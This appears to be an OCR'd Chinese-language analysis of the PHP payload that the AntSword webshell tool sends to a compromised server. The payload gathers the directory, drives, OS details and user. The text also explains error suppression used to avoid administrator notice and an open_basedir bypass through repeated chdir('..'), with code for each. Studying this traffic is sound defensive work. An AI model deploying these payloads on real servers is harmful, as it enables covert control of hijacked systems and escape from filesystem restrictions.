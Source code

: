 ```php
        break;
    }
}
function asenc($out){ return $out; }
function asoutput(){
    $output=ob_get_contents();
    ob_end_clean();
    echo "80db0"."e85832";
    echo @asenc($output);
    echo "ec1b"."79bff";
}
ob_start();
try {
    $D=dirname($_SERVER["SCRIPT_FILENAME"]);
    if($D=="") $D=dirname($_SERVER["PATH_TRANSLATED"]);
    $R="{$D}\t";
    if(substr($D,0,1)!="/"){
        foreach(range("C","Z") as $L)
            if(is_dir("{$L}:")) $R.="{$L}:";
    } else {
        $R.="/";
    }
    $R.="\t";
    $u=(function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s=($u) ? $u["name"] : @get_current_user();
    $R.=php_uname();
    $R.="\t{$s}";
    echo $R;
} catch(Exception $e){
    echo "ERROR://".$e->getMessage();
}
asoutput();
die();
```


分析：

`隐藏处理`：抑制脚本报错，避免错误信息泄露引起管理员注意，设置脚本运行时间限制为0，蚁剑可以长时间连接执行webshell


```php
@ini_set("display_errors", "0");
@set_time_limit(0);
```

`目录穿越`：通过创建并进入子目录，设置`..`为根目录，这里的`..`应该有双层语义吧，既可以表示上级目录，也可以表示配置的根目录，通过`..`不断穿越到上层，再设置`..`为根目录，实现了目录穿越，绕过了open_basedir限制

```php
if(!@file_exists($tmdir)) { continue; }
@chdir($tmdir);
@ini_set("open_basedir", "..");
$cntarr=@preg_split("/\\\\|\\//", $tmdir);
for($i=0;$i<sizeof($cntarr);$i++){ @chdir(".."); }
@ini_set("open_basedir","/");
```        
